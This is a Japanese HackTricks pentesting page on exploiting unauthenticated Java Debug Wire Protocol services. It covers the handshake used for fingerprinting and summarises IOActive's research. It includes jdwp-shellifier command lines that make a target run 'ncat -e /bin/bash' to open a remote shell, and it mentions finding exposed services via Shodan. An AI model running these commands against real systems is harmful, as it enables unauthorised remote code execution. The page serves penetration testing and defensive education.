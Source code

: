 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### ハッカーの視点からあなたのウェブアプリ、ネットワーク、クラウドを見つめる

**実際のビジネスに影響を与える重大で悪用可能な脆弱性を見つけて報告します。** 20以上のカスタムツールを使用して攻撃面をマッピングし、特権を昇格させるセキュリティ問題を見つけ、自動化されたエクスプロイトを使用して重要な証拠を収集し、あなたの努力を説得力のある報告書に変えます。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## エクスプロイト

JDWPのエクスプロイトは、**プロトコルの認証と暗号化の欠如**に依存しています。一般的には**ポート8000**で見つかりますが、他のポートも可能です。最初の接続は、ターゲットポートに「JDWP-Handshake」を送信することで行われます。JDWPサービスがアクティブであれば、同じ文字列で応答し、その存在を確認します。このハンドシェイクは、ネットワーク上のJDWPサービスを特定するためのフィンガープリンティング手法として機能します。

プロセス識別に関しては、Javaプロセス内で「jdwk」という文字列を検索することで、アクティブなJDWPセッションを示すことができます。

使用するツールは[**jdwp-shellifier**](https://github.com/hugsy/jdwp-shellifier)です。さまざまなパラメータで使用できます：
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
`--break-on 'java.lang.String.indexOf'` を使用すると、エクスプロイトがより**安定**します。また、ホストにバックドアをアップロードしてコマンドを実行する代わりにそれを実行する機会があれば、エクスプロイトはさらに安定します。

## 詳細

**これは [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/) の要約です。詳細については確認してください。**

1. **JDWP 概要**:
- パケットベースのネットワークバイナリプロトコルで、主に同期的です。
- 認証と暗号化が欠如しており、敵対的なネットワークにさらされると脆弱です。

2. **JDWP ハンドシェイク**:
- 通信を開始するためにシンプルなハンドシェイクプロセスが使用されます。デバッガ（クライアント）とデバッグ対象（サーバー）間で14文字のASCII文字列「JDWP-Handshake」が交換されます。

3. **JDWP 通信**:
- メッセージは長さ、ID、フラグ、コマンドセットなどのフィールドを持つシンプルな構造です。
- コマンドセットの値は0x40から0x80までで、異なるアクションやイベントを表します。

4. **エクスプロイト**:
- JDWPは任意のクラスとバイトコードをロードおよび呼び出すことを許可し、セキュリティリスクを引き起こします。
- 記事では、Javaランタイムの参照を取得し、ブレークポイントを設定し、メソッドを呼び出すという5つのステップからなるエクスプロイトプロセスを詳述しています。

5. **実際のエクスプロイト**:
- ファイアウォール保護の可能性にもかかわらず、JDWPサービスは発見可能で、ShodanHQやGitHubなどのプラットフォームでの検索によって実際のシナリオでエクスプロイト可能です。
- エクスプロイトスクリプトはさまざまなJDKバージョンに対してテストされており、プラットフォームに依存せず、信頼性のあるリモートコード実行（RCE）を提供します。

6. **セキュリティの影響**:
- インターネット上にオープンなJDWPサービスが存在することは、定期的なセキュリティレビュー、プロダクション環境でのデバッグ機能の無効化、および適切なファイアウォール設定の必要性を強調しています。

### **参考文献:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### ハッカーの視点からあなたのウェブアプリ、ネットワーク、クラウドを評価

**実際のビジネスに影響を与える重大でエクスプロイト可能な脆弱性を見つけて報告します。** 20以上のカスタムツールを使用して攻撃面をマッピングし、特権を昇格させるセキュリティ問題を見つけ、自動エクスプロイトを使用して重要な証拠を収集し、あなたの努力を説得力のある報告に変えます。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
